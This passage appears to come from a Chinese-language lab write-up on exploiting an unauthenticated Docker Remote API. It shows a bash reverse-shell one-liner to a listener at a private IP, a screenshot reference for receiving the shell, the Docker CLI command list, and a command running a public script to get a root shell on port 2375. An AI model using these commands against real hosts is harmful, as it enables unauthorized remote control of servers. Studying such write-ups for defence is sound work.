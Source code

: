 ```
bash -i >& /dev/tcp/172.26.1.156/6666 0>&1
```
接收shell：
![15.jpg](https://ae01.alicdn.com/kf/U7b8e78e557b042b5b0d79b2df32fe564o.jpg)



### 可以使用的命令：
```
Commands:
  attach      Attach local standard input, output, and error streams to a running container
  build       Build an image from a Dockerfile
  commit      Create a new image from a container's changes
  cp          Copy files/folders between a container and the local filesystem
  create      Create a new container
  diff        Inspect changes to files or directories on a container's filesystem
  events      Get real time events from the server
  exec        Run a command in a running container
  export      Export a container's filesystem as a tar archive
  history     Show the history of an image
  images      List images
  import      Import the contents from a tarball to create a filesystem image
  info        Display system-wide information
  inspect     Return low-level information on Docker objects
  kill        Kill one or more running containers
  load        Load an image from a tar archive or STDIN
  login       Log in to a Docker registry
  logout      Log out from a Docker registry
  logs        Fetch the logs of a container
  pause       Pause all processes within one or more containers
  port        List port mappings or a specific mapping for the container
  ps          List containers
  pull        Pull an image or a repository from a registry
  push        Push an image or a repository to a registry
  rename      Rename a container
  restart     Restart one or more containers
  rm          Remove one or more containers
  rmi         Remove one or more images
  run         Run a command in a new container
  save        Save one or more images to a tar archive (streamed to STDOUT by def                                                              ault)
  search      Search the Docker Hub for images
  start       Start one or more stopped containers
  stats       Display a live stream of container(s) resource usage statistics
  stop        Stop one or more running containers
  tag         Create a tag TARGET_IMAGE that refers to SOURCE_IMAGE
  top         Display the running processes of a container
  unpause     Unpause all processes within one or more containers
  update      Update configuration of one or more containers
  version     Show the Docker version information
  wait        Block until one or more containers stop, then print their exit codes                         
```
## 使用GitHub上的脚本对该漏洞进行利用：
1. 查看运行的容器：
```
py -2 dockerRemoteApiGetRootShell.py -h 172.26.1.97 -p 2375
```
截图:
![16.jpg](https://ae01.alicdn.com/kf/Uf9c0a1658ad14b04b0c3c4c9c94c3b18P.jpg)
